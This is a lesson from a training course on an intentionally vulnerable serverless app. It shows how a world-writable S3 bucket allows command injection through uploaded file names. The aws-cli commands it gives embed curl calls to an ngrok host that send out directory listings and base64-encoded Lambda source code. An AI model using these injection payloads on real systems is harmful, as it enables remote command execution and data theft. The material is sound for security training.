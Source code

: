 
# LESSON #4: Insecure Cloud Configuration

The DVSA uses cloud storage (i.e. S3 bucket) to upload order receipts. After a payment is processed successfully, a receipt is issued and uploaded to the bucket. When the order is processed for shipment, the file is downloaded from the bucket, modified and uploaded back as a final format receipt that is sent to the user via email.

However, since the S3 is configured insecurely, it is possible to upload files to the bucket with any AWS account. For example, if you install the aws-cli, you can simply run the command: 

`aws s3 cp /path/to/local/file s3://DVSA-RECEIPTS-BUCKET-{id}`

![alt s3-upload](https://i.imgur.com/K3sE1pf.png)

*Note, that you won't be able to run `ls` with an account different than the account where the DVSA is deployed, since it is misconfigured with WRITE permissions, and not with READ. At least not yet :)*

Let's see how to exploit it:

1. If you completed at least one order, you will receive an email with a link to download the receipt. It should look something like that:

![alt receipt-sample](https://i.imgur.com/XwcHgF3.png)


You can notice that the path to the file in the bucket is the date. e.g. `2018/12/24/{receipt-uuid}.txt`.

2. So let's fake a receipt and see what happens. Using the aws-cli we can simply run the command:

```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null_;curl 0c971764.ngrok.io?data="$(ls)";echo x.raw' --acl public-read --profile hacker
```
(The *echo x.raw* at the end of the file name is used to trigger the function, which is only triggered when a .raw file is created).

![alt ls](https://i.imgur.com/h9mw2qV.png)


3. We know the file's name, let's extract its code:
```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null;curl 0c971764.ngrok.io?code="$(cat lambda_function.py | base64 --wrap=0)" echo x.raw' --profile hacker
```

We now have the code in Base64 (I cut out most of it for a better screenshot).
![alt b64-code](https://i.imgur.com/KcklwO0.png)


Let's decode: `echo <BASE64_STRING> | base64 --decode > /tmp/lambda.py`

![alt code](https://i.imgur.com/GD3YwJg.png)

We can now see the vulnerable code - os.system() - which uses the name of the uploaded file as part of the command. 

You now have all the information further exploit it, [stealing keys](../LESSONS/LESSON_05.md) or executing any other command.


- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

